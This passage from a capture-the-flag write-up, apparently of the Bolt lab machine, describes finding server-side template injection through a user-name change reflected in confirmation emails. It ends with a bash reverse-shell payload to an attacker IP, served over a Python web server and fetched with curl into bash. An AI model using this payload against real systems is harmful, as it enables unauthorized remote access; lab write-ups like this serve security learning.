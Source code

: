 If I update the registered user name, I get an e-mail service and confirmation message, with the **URL** to confirm the change. If I access it, I get another email informing me that the change was successful and I see on the screen the data I just updated.

<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_42.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_43.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_44.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now I can turn to **[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection){:target="_blank"}** to look for examples of basic injection, so I can confirm that the web service is vulnerable to **[SSTI](https://portswigger.net/web-security/server-side-template-injection){:target="_blank"}**. If I try to run some basic commands on the victim machine I successfully get the results on screen, on the email service

<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_45.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_46.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_47.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_48.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now I verify that there is connectivity from the victim machine to my attacker machine, using a **ping** and listening with `tcpdump` for incoming connections. I get a trace and I can now create a malicious `index.html` file to get a **Reverse Shell**. I only have to mount a local web server with `python` and access with `curl`, from the victim machine to interpret its content with `bash` and that's it, I could already access.

```bash
nvim index.html
python3 -m http.server 80
nc -nlvp 443
```

> **index.html**

```bash
#!/bin/bash

bash -i >&/dev/tcp/10.10.14.13/443 0>&1
```
